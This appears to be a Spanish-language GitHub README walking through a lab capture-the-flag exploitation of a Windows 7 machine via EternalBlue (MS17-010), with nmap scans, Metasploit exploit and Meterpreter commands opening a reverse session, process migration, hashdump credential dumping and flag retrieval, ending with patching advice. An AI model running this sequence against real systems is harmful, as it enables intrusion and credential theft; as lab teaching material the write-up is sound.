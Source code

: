 # **Explotación de Máquina Blue (EternalBlue - MS17-010)**

![Pentest Badge](https://img.shields.io/badge/Level-Easy-green) ![Vulnerability Badge](https://img.shields.io/badge/Vuln-Critical-red)

## **Descripción**
Este repositorio documenta la explotación de una máquina Windows vulnerable al famoso exploit EternalBlue (MS17-010), incluyendo:
1. Detección de la vulnerabilidad SMB
2. Explotación con Metasploit
3. Escalada a Meterpreter
4. Post-explotación y captura de flags

**Tiempo estimado**: 15-25 minutos  
**Dificultad**: Fácil  
**Sistema operativo**: Windows (vulnerable a MS17-010)

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Explotación](#explotación)
3. [Post-Explotación](#post-explotación)
4. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -sV -p- 10.0.2.15 -oN initial_scan
```
**Hallazgos clave**:
- 445/tcp : SMB (Windows 7 Professional 7601 Service Pack 1)

### 2. Verificación de Vulnerabilidad
```bash
nmap --script vuln -p 445 10.0.2.15
```
**Confirmación**:
```
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

## **Explotación**

### 3. Configuración de Metasploit
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.0.2.15
set LHOST 10.0.2.4
exploit
```

### 4. Mejora a Meterpreter
En la sesión básica:
```bash
background
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
sessions -i 2
```

## **Post-Explotación**

### 5. Escalada de Privilegios
```meterpreter
getuid
ps
migrate <PID_de_services.exe>
```

### 6. Captura de Credenciales
```meterpreter
hashdump
```

### 7. Búsqueda de Flags
```meterpreter
search -f *flag*.txt
cat "C:\\Users\\Administrator\\Desktop\\flag.txt"
```

## **Conclusión**

### Vulnerabilidades Críticas
1. Servicio SMB sin parches (MS17-010)
2. Configuración insegura de red

### Hardening Recomendado
- Aplicar actualización KB4012212 de Microsoft
- Deshabilitar SMBv1
- Implementar segmentación de red


**¿Te resultó útil?** ¡Dale una ⭐ al repositorio!

> ⚠️ **Aviso Legal**: Solo para uso en entornos autorizados.

---

**Herramientas utilizadas**:
- Nmap
- Metasploit Framework
- John the Ripper (opcional)

**Referencias**:
- [Microsoft Security Bulletin MS17-010](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010)
- [Mitre ATT&CK T1210](https://attack.mitre.org/techniques/T1210/)
